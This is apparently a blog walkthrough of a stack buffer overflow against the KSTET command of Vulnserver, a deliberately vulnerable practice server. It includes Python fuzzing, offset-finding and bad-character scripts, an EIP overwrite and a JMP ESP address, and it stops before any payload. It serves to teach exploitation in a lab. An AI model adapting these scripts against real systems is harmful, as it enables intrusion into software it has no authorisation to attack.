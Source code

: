 ```yaml
---
layout: post
title: Vulnserver
---
```


<p class="message">
  Vulnserver is an intentionally vulnerable Windows based TCP server. It is commonly used to practice exploitation techniques like what I have done with it. 
  In this walk-through I have spun vulnserver up on a Windows 10 VM and will exploit it using a buffer overflow vulnerability within one of it's commands.
  I will be using the immunity debugger and pythons mona modules in order to exploit this application.
  <br>
  Everything I used in this walkthrough I leaned from the Pratical Ethical Hacking course <a href="">on Udemy</a> by Heath Adams.
</p>

Just like with any other pentest I start by scanning the target with nmap.

<img src="">
<img src="">

Port 9999 is the port vulnserver is running on and the one I am interested in.\
Using netcat I connect to the server.

<img src="">

In order to find a command vulnerable to buffer overflows I started by spiking the commands 

<p class="message">s_readline();<br>s_string("KSTET ");<br>s_string_variable("0");</p>

While spiking, I have the vulnserver application attached to immunity debugger. When running the KSTET spike the server crashes and observing immunity debugger 
shows me that the ESP and EIP are both overwritten with A's. Exactly what I'm looking for.

<img src="">

From immunity debugger I also see that the KSTET command adds special characters to the beggining of the input data. Specifically "/.:/". When writing scripts 
later I will need to remeber to append this to the beggining of my commands.\
Now that I have a vulnerable command to concentrate on I need to find the exact bytes at which the input data overwrites the EIP so I can overwrite it.\
To begin I'll use a fuzzing script to find a general byte size that crashed the program.

```
#!/usr/bin/python

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('172.16.31.171',9999))
                
        print("Fuzzing KSTET feild with %s bytes" % len(buffer))
        s.recv(1024)
        s.send(('KSTET /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100

    except:
        print "Fuzzing crashed at %s bytes" % str(len(buffer))
        sys.exit()
 ```
 
 <img src="">
 
 The script crashes the program at 200 bytes and observing immunity debugger shows me that the EIP is indeed overwritten.\
 This tells me that somewhere in those 200 bytes the EIP is being overwritten but does not tell me at exactly which bytes this is occuring. For that I use the pattern_create ruby module included in the metasploit-famework tools.\
Using 200 as a parameter (becuase that how long we need it to be to trigger the crash) the module generates a string for me to use to crash the application. 
 
 <img src="">
 
 Now I update my script from earlier and send the new command.
 
 ```
 #!/usr/bin/python

import sys, socket
from time import sleep
                                                                                                                    
offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"                     
                                                                                                                    
try:                                                                                                                
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)                                                              
    s.connect(('172.16.31.171',9999))                                                                               
                                                                                                                    
    s.send(('KSTET /.:/' + offset))                                                                                 
    s.close()                                                                                                       
                                                                                                                    
except:                                                                                                             
    print "Fuzzing crashed at %s bytes" % str(len(buffer))                                                          
    sys.exit() 
```

<img src="">

The program crashes and the EIP is overwritten with 41326341.\
This alone doesn't tell me much but using the the pattern_offset ruby module will show me the exact byte at which the EIP was overwritten.\
I pass the length of the of the command and the value of the EIP to the module.

<img src="">

Exact match at 66 bytes!\
This is great but it is always a good idea to verify information so modifying my script from before I'll send 66 bytes of A's and 4 bytes of B's. If the EIP is overwritten with just 42's then I know we have the correct offset.

```
#!/bin/python

import sys, socket
from time import sleep

shellcode = "A" * 66 + "B" * 4

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('172.16.31.171',9999))

    s.send(('KSTET /.:/' + shellcode))
    s.close()

except:
    sys.exit()
```

<img src="">

What do you know, the EIP is overwritten with 42's. Looks like I have the correct offset.\
Now that I have control of the EIP I need a spot in memory to have the instruction pointer point to where I can execute my payload.
To find such a specific spot I'll use mona modules with immunity debugger.

<img src="">

Looking at the list of modules available in the application I want to find one with very little memory protections so my payload can overwrite it. 
The very first module listed seems to fit the bill, Falses's across the board.\
Now that I know essfunc.dll has no memory protections I need to find its jmp code in order to point the EIP to this module.\
Luckily for me mona can help me with that too. Using mona find to look for the jmp code string \xff\xe4 in the module essfunc.dll

<img src="">

Choosing the first one, 625011af I now have a jmp code for the vulnerable module.\
You might think that's all I need to now exploit the service however I still need to search for bad characters. Bad characters are characters that may have been assigned special meaning in a program and therefore cannot be used in my shell code as they have a specific meaning to the processor.\
Using this script I send all possible bad characters at the application and examine the hex dump in immunity debugger. Any oddities in the dump will signify that character as being a bad character becuase it produced something other then the character it should be. 

```
#!/bin/python

import sys, socket
from time import sleep

badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

shellcode = "A" * 66 + "B" * 4 + badchars

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('172.16.31.171',9999))

    s.send(('KSTET /.:/' + shellcode))
    s.close()

except:
    sys.exit()
```

This application fortunatly has no bad characters other then the null character \\x00

<!-- Bad Characters -->
